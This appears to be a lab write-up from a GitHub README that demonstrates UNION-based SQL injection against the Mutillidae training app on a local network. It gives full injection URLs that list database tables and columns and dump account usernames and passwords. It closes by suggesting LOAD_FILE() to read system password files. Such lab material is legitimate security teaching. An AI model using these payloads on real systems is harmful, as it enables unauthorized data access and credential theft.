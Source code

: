 Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

# ![Screenshot 2024-04-20 213140](https://github.com/DEEPAK22003907/sqlinjection/assets/119404520/1fb019a5-bbdd-4f02-8c3d-4545c9ecbee7)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

# ![Screenshot 2024-04-20 213313](https://github.com/DEEPAK22003907/sqlinjection/assets/119404520/88e96a8f-dd36-498f-88b6-a1c302e605f1)
The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

# ![Screenshot 2024-04-20 213435](https://github.com/DEEPAK22003907/sqlinjection/assets/119404520/0816289b-d663-4215-907c-a10785f42851)
Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

# ![Screenshot 2024-04-20 213547](https://github.com/DEEPAK22003907/sqlinjection/assets/119404520/17e62ae5-c8ec-48d6-9992-d2ebf7522300)
## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.
